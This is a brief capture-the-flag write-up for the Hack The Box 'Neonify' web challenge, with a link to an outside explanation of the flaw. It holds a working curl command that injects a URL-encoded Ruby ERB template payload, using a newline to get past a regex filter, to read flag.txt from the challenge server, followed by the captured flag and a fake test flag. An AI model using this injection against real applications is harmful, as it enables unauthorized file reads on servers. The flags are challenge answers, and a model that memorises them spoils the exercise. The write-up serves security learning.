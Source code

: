 Obviously i didnt find anything and solved it.


Used this resource to understand the vuln and breaking the ruby code

https://drt.sh/posts/htb-neonify/


```bash
─[✗]─[glack@parrot]─[~/Desktop/HTB/web_neonify/challenge/config]
└──╼ $curl http://138.68.148.72:31423/   -s -X POST -d 'neon=a
%3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' | grep -Eo 'HTB{.*}'
HTB{r3pl4c3m3n7_s3cur1ty}

```

```
HTB{f4k3_fl4g_f0r_t3st1ng}
```

